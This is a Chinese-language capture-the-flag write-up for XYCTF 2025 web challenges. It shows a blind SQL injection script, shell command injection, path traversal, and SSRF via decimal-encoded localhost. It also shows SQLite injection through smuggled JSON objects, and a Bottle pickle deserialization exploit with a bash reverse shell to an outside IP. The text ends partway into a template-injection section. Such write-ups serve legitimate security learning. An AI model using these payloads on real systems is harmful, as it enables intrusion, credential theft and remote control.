XYCTF 2025 Web Writeup
XYCTF 2025 Web Writeup
ezsql
fuzz一下，测试过滤字符
like、逗号(,)、空格、and、|、*、union、&、-、+ 等等 Union被过滤，用盲注，逗号用 from for，空格用%09绕过，程序总共两种返回结果，302 或 200(账号或密码错误)
1' or(substr(database() from 1 for 1))='a'%23
1'%09or(substr(database()%09from%091%09for%091))='a'%23编写脚本
import requests
import string
fuzz = "-{}_," + string.ascii_lowercase + string.digits
url = "http://gz.imxbt.cn:20076/login.php"
a = 1
b = ""
headers = {"Content-Type" : "application/x-www-form-urlencoded"}
while(True):
for i in fuzz:
# data = f"username=1'%09or(substr(database()%09from%09{a}%09for%091))='{i}'%23&password=1" #testdb
# data = f"username=1'%09or(substr((select%09group_concat(schema_name)%09from%09information_schema.schemata)%09from%09{a}%09for%091))='{i}'%23&password=1" #information_schema, mysql, testdb, systest, performance_schema
# data = f"username=1'%09or(substr((select%09group_concat(table_name)%09from%09information_schema.tables%09where%09table_schema=database())%09from%09{a}%09for%091))='{i}'%23&password=1" # double_check, user
# data = f"username=1'%09or(substr((select%09group_concat(column_name)%09from%09information_schema.columns%09where%09table_name='double_check')%09from%09{a}%09for%091))='{i}'%23&password=1" # secret
data = f"username=1'%09or(substr((select%09group_concat(secret)%09from%09testdb.double_check)%09from%09{a}%09for%091))='{i}'%23&password=1" #dtfrtkcc0czkoua9s
result = requests.post(url=url, data=data, headers=headers, proxies={"http":"http://127.0.0.1:8080"})
if "帐号或密码错误" in result.text:
pass
elif "检测到非法输入,已阻断!" in result.text:
pass
else:
b+=i
print(b)
a+=1输入注出的密钥

进去是一个无回显命令执行接口

过滤空格， $IFS绕过
ls$IFS/>1.txt
cat$IFS/flag.txt>2.txt
Signin
# -*- encoding: utf-8 -*-
'''
@File : main.py
@Time : 2025/03/28 22:20:49
@Author : LamentXU
'''
'''
flag in /flag_{uuid4}
'''
from bottle import Bottle, request, response, redirect, static_file, run, route
with open('../../secret.txt', 'r') as f:
secret = f.read()
app = Bottle()``
@route('/')
def index():
return '''HI'''
@route('/download')
def download():
name = request.query.filename
if '../../' in name or name.startswith('/' ) or name.startswith('../') or '\\' in name:
response.status = 403
return 'Forbidden'
with open(name, 'rb') as f:
data = f.read()
return data
@route('/secret')
def secret_page():
try:
session = request.get_cookie("name", secret=secret)
if not session or session["name"] == "guest":
session = {"name": "guest"}
response.set_cookie("name", session, secret=secret)
return 'Forbidden!'
if session["name"] == "admin":
return 'The secret has been deleted!'
except:
return "Error!"
run(host='0.0.0.0', port=8080, debug=False)程序基于 Bottle 框架搭建 Web 服务，访问根目录回显 HI。/download路由提供了文件读取功能，/secret基于 Cookie 验证权限，返回不同的内容
@route('/download')
def download():
name = request.query.filename
if '../../' in name or name.startswith('/' ) or name.startswith('../') or '\\' in name:
response.status = 403
return 'Forbidden'
with open(name, 'rb') as f:
data = f.read()
return data顺着代码意思，我们先尝试拿到admin。cookie 加密密钥在 ../../secret.txt，需要绕过过滤读取文件，先读取 app.py试试
http://eci-2zec3yt2vvpqcvovokx3.cloudeci1.ichunqiu.com:5000/download?filename=app.py
通过./../组合绕过，拿到密钥
http://eci-2zec3yt2vvpqcvovokx3.cloudeci1.ichunqiu.com:5000/download?filename=./.././../secret.txt
//secret = Hell0_H@cker_Y0u_A3r_Sm@r7
本地生成密钥，拿到 admin的 Cookie
name="!Q2i4b0GcN4AM+eI0/Br6YuNIftiqf3hm53bC67S2HUM=?gAWVGQAAAAAAAABdlCiMBG5hbWWUfZRoAYwFYWRtaW6Uc2Uu"发现什么内容都没有

bottle 框架的 bottle.response.set_cookie()会在解码 cookie 的时候使用 pickle.loads，这存在着 pickle 反序列化漏洞
构造 EXP：
from bottle import route, run,response
import os
secret = "Hell0_H@cker_Y0u_A3r_Sm@r7"
class exp():
def __reduce__(self):
cmd = "bash -c 'bash -i >& /dev/tcp/60.204.244.254/29998 0>&1'"
# cmd = "cat /flag_* > /1.txt"
return (os.system, (cmd,))
@route("/secret")
def index():
try:
session = exp()
response.set_cookie("name", session, secret=secret)
return "success"
except:
return "fail"
if __name__ == "__main__":
os.chdir(os.path.dirname(__file__))
run(host="0.0.0.0", port=80)本地测试反弹 Shell，生成恶意 Cookie 并发包
name="!KvRmcP+G2n6yLDFEBXLFhV9EXo3aOfX8QRjhmOu2Cug=?gAWVXQAAAAAAAABdlCiMBG5hbWWUjAVwb3NpeJSMBnN5c3RlbZSTlIw3YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC82MC4yMDQuMjQ0LjI1NC8yOTk5OCAwPiYxJ5SFlFKUZS4="成功接收到 Shell
拿 Payload打远程，返回了 Error!，程序执行报错，猜测可能是靶机不出网
这样外带也是不行的，那就读取 FLAG 并写入文件，再使用前面的任意文件读取功能读取 FLAG
//cat /flag_* > /1.txt
name="!DEJ3Dr2+czUpR5X5pDZrpuhtvN4Cl/Alz/leGAxtaHA=?gAWVOgAAAAAAAABdlCiMBG5hbWWUjAVwb3NpeJSMBnN5c3RlbZSTlIwUY2F0IC9mbGFnXyogPiAvMS50eHSUhZRSlGUu"拿到 FLAG
ez_puzzle
一个拼图，两秒内拼完弹 FLAG
将其添加至忽略已继续调试

和时间有关，全局搜索 time，发现 endTime、startTime两个变量
仅能查到 startTime，显然 endTime是在拼完图后赋值的
猜测程序是对这两个变量作差，即 endTime - startTime，因为要比较是否在两秒内拼完，如果将startTime为无限大，相减为负就能小于 2 秒
拼完图即可

fate
源码如下
#!/usr/bin/env python3
import flask
import sqlite3
import requests
import string
import json
app = flask.Flask(__name__)
blacklist = string.ascii_letters
def binary_to_string(binary_string):
if len(binary_string) % 8 != 0:
raise ValueError("Binary string length must be a multiple of 8")
binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
return string_output
@app.route('/proxy', methods=['GET']) #代理转发
def nolettersproxy():
url = flask.request.args.get('url')
if not url: #如果没有传参则跳出异常
return flask.abort(400, 'No URL provided')
target_url = "http://lamentxu.top" + url
for i in blacklist:
if i in url: #如果传参带有大小写字母则跳出异常
return flask.abort(403, 'I blacklist the whole alphabet, hiahiahiahiahiahiahia~~~~~~')
if "." in url: #禁止传参.
return flask.abort(403, 'No ssrf allowed')
response = requests.get(target_url)
return flask.Response(response.content, response.status_code)
def db_search(code): #执行数据库查询, 传参可控
with sqlite3.connect('database.db') as conn:
cur = conn.cursor()
cur.execute(f"SELECT FATE FROM FATETABLE WHERE NAME=UPPER(UPPER(UPPER(UPPER(UPPER(UPPER(UPPER('{code}')))))))")
found = cur.fetchone()
return None if found is None else found[0]
@app.route('/')
def index():
print(flask.request.remote_addr)
return flask.render_template("index.html")
@app.route('/1337', methods=['GET'])
def api_search():
if flask.request.remote_addr == '127.0.0.1': #判断请求ip是否为本地
code = flask.request.args.get('0')
if code == 'abcdefghi': #需要code=abcdefghi
req = flask.request.args.get('1')
try:
req = binary_to_string(req)
print(req)
req = json.loads(req) # No one can hack it, right? Pickle unserialize is not secure, but json is ;)
except:
flask.abort(400, "Invalid JSON")
if 'name' not in req:
flask.abort(400, "Empty Person's name")
name = req['name'] #小waf, name不能大于6, 不能包含 \', 不能包含 )
if len(name) > 6:
flask.abort(400, "Too long")
if '\'' in name:
flask.abort(400, "NO '")
if ')' in name:
flask.abort(400, "NO )")
"""
Some waf hidden here ;)
"""
fate = db_search(name)
if fate is None:
flask.abort(404, "No such Person")
return {'Fate': fate}
else:
flask.abort(400, "Hello local, and hello hacker")
else:
flask.abort(403, "Only local access allowed")
if __name__ == '__main__':
app.run(debug=True, host='0.0.0.0', port=8080)两个关键路由， 通过 proxy路由代理转发，请求 1337路由实现 SQLITE 注入
通过 proxy路由代理转发时参值不能含有字母和点，这里通过 @绕过加进制转换绕过，@是虚拟域名，在浏览器输入后，浏览器会识别@后面的域名
@app.route('/proxy', methods=['GET']) #代理转发
def nolettersproxy():
url = flask.request.args.get('url')
if not url:
return flask.abort(400, 'No URL provided')
target_url = "http://lamentxu.top" + url
for i in blacklist:
if i in url:
return flask.abort(403, 'I blacklist the whole alphabet, hiahiahiahiahiahiahia~~~~~~')
if "." in url: #禁止传参.
return flask.abort(403, 'No ssrf allowed')
response = requests.get(target_url)
def db_search(code):
...
cur.execute(f"SELECT FATE FROM FATETABLE WHERE NAME=UPPER(UPPER(UPPER(UPPER(UPPER(UPPER(UPPER('{code}')))))))")
@app.route('/1337', methods=['GET'])
def api_search():
if flask.request.remote_addr == '127.0.0.1':
...
if code == 'abcdefghi':
...
fate = db_search(name)回显 Hello local, and hello hacker，成功
http://IP:8080/proxy?url=@2130706433:8080/1337
然后需要传入 abcdefghi，没法再使用进制绕过字母 waf，利用 Flask 解码特性，内外层 URL 编码绕过。
http://192.168.137.139:8080/proxy?url=@2130706433:8080/1337?0=abcdefghi&=1
http://192.168.137.139:8080/proxy?url=%40%32%31%33%30%37%30%36%34%33%33%3a%38%30%38%30%2f%31%33%33%37%3f%30%3d%25%36%31%25%36%32%25%36%33%25%36%34%25%36%35%25%36%36%25%36%37%25%36%38%25%36%39%26%31%3d
1的参值会被丢入 binary_to_string函数里去，该函数将参值分为8个一组挨个取出并二进制解码，然后拼接返回
def binary_to_string(binary_string):
if len(binary_string) % 8 != 0:
raise ValueError("Binary string length must be a multiple of 8")
binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
return string_output根据 binary_to_string函数写一个加密段
def binary_to_string(binary_string):
if len(binary_string) % 8 != 0:
raise ValueError("Binary string length must be a multiple of 8")
binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
return string_output
req = '{"name":"test"}'
binary_string = ''.join(format(ord(c), '08b') for c in req)
print(binary_string)
//011110110010001001101110011000010110110101100101001000100011101000100010011101000110010101110011011101000010001001111101成功进入 db_search函数
http://192.168.137.139:8080/proxy?url=%40%32%31%33%30%37%30%36%34%33%33%3a%38%30%38%30%2f%31%33%33%37%3f%30%3d%25%36%31%25%36%32%25%36%33%25%36%34%25%36%35%25%36%36%25%36%37%25%36%38%25%36%39%26%31%3d011110110010001001101110011000010110110101100101001000100011101000100010011101000110010101110011011101000010001001111101
接下来 SQL 注入，在 init_db.py中发现 flag在FATETABLE库Fate表中
#init_db.py
import sqlite3
conn = sqlite3.connect("database.db")
conn.execute("""CREATE TABLE FATETABLE (
NAME TEXT NOT NULL,
FATE TEXT NOT NULL
);""")
Fate = [
('JOHN', '1994-2030 Dead in a car accident'),
('JANE', '1990-2025 Lost in a fire'),
('SARAH', '1982-2017 Fired by a government official'),
('DANIEL', '1978-2013 Murdered by a police officer'),
('LUKE', '1974-2010 Assassinated by a military officer'),
('KAREN', '1970-2006 Fallen from a cliff'),
('BRIAN', '1966-2002 Drowned in a river'),
('ANNA', '1962-1998 Killed by a bomb'),
('JACOB', '1954-1990 Lost in a plane crash'),
('LAMENTXU', r'2024 Send you a flag flag{FAKE}')
]
conn.executemany("INSERT INTO FATETABLE VALUES (?, ?)", Fate)
conn.commit()
conn.close()并且我们需要绕过这段 WAF
if len(name) > 6:
flask.abort(400, "Too long")
if '\'' in name:
flask.abort(400, "NO '")
if ')' in name:
flask.abort(400, "NO )")这需要利用 Python 格式化字符串漏洞，在 python 中使用 f-string 直接传入非字符串参数时，会被强转为字符串并完整填入。这使得我们可以传入一个非字符串的值，如列表、字典，从而绕过前面的 WAF 检测，然后在 SQL 执行中被转换
构造 Payload
req = """{"name":{"'))))))) UNION SELECT FATE FROM FATETABLE--":"1"}}"""
req = """{"name":{"'))))))) UNION SELECT FATE FROM FATETABLE where NAME='LAMENTXU'--":"1"}}"""
http://ip:8080/proxy?url=%402130706433%3a8080%2f1337%3f0%3d%2561%2562%2563%2564%2565%2566%2567%2568%2569%261%3d01111011001000100110111001100001011011010110010100100010001110100111101100100010001001110010100100101001001010010010100100101001001010010010100100100000010101010100111001001001010011110100111000100000010100110100010101001100010001010100001101010100001000000100011001000001010101000100010100100000010001100101001001001111010011010010000001000110010000010101010001000101010101000100000101000010010011000100010100100000011101110110100001100101011100100110010100100000010011100100000101001101010001010011110100100111010011000100000101001101010001010100111001010100010110000101010100100111001011010010110100100010001110100010001000110001001000100111110101111101
出题人已疯
源码如下
# -*- encoding: utf-8 -*-
'''
@File : app.py
@Time : 2025/03/29 15:52:17
@Author : LamentXU
'''
import bottle
'''
flag in /flag
'''
@bottle.route('/')
def index():
return 'Hello, World!'
@bottle.route('/attack')
def attack():
payload = bottle.request.query.get('payload')
if payload and len(payload) < 25 and 'open' not in payload and '\\' not in payload:
return bottle.template('hello '+payload)
else:
bottle.abort(400, 'Invalid payload')
if __name__ == '__main__':
bottle.run(host='0.0.0.0', port=5000)很明显的 Bottle SSTI模板注入，由于 bottle.template会将输入与 hello字符拼接，为了正确解析并执行 Python 代码，需要加上 \n
类似命令执行长度限制绕过，Python 任意模块都允许动态添加属性，可以利用这种特性把 payload挨个写入属性中，从而绕过 25 长度限制
import os
os.a = '123'
print(os.a)
